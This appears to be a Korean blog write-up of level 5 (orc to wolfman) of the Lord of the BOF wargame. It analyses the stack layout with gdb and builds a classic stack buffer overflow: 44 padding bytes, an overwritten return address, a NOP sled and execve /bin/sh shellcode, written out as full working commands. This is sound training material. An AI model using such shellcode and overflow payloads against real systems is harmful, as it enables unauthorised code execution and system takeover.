 ```yaml
---
title:  "[LOB] level 5: orc >> wolfman "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 08:46:36

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 5

**orc / cantata**

wolfman.c 코드 읽기  

![image](https://user-images.githubusercontent.com/69203345/147016263-c0deb5b7-aa7e-4e4b-96da-7b86f2f4abec.png)

하면할수록 조건이 추가되는데 소름이 돋을 지경이다

buffer를 memset으로 초기화도 시킨다  
나머지 조건은 그대로

스택의 구조를 보면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc  
argv[1]

높은주소

일듯하다

그래도 gdb는 빠질수 없지  
![image](https://user-images.githubusercontent.com/69203345/147054712-6529e861-c065-4e0f-b6f0-c44ffb48bce5.png)  
밑에 더있는데 다 nop이니까 안올림

0x8048503 <main+3>: sub %esp, 44  
스택의 크기는 44바이트

0x80485b9 <main+185>: lea  %eax,[%ebp-40]  buffer의 위치

0x8048506 <main+6>: cmp DWORD PTR [%ebp+8],1  
이부분이 argc의 비교문 일것이다 따라서 argc의 위치는 [ebp+8]일것

0x80485ce <main+189>: call 0x8048440  <strcpy>  위에 strcpy의 인자로 push되는 인자들을 보면 <main+176>에 [%ebp+12]의 위치에 있는 인자가 push되는데  argv[1]이라고 생각이 든다

스택을 좀더 정확히 해보자면

낮은주소

i[4]  
buffer[40] [ebp-40]  
sfp[4]  
ret[4]  
...  
argc    [ebp+8]     #값은 1  
argv[] [ebp+12]

높은주소

작성할 페이로드 A*44 +ret[4] + 쉘코드

>./wolfman \`python -c 'print "A"\*44+"\xff\xff\xff\xbf"+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147061721-1db78919-49a2-47ac-8e6d-f8937187e50d.png)

gdb로 core확인

![image](https://user-images.githubusercontent.com/69203345/147061973-639702c5-4b5d-4163-8238-491b3697a437.png)

0xbffffc50으로 리턴주소를 사용하겠다

>./wolfman \`python -c 'print "A"\*44+"\x50\xfc\xff\xbf"+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

Illegal instruction이 뜬다면 \x90의 갯수를 바꿔보자

![image](https://user-images.githubusercontent.com/69203345/147063440-f6cb7f43-5544-416e-9282-30037332c3c2.png)
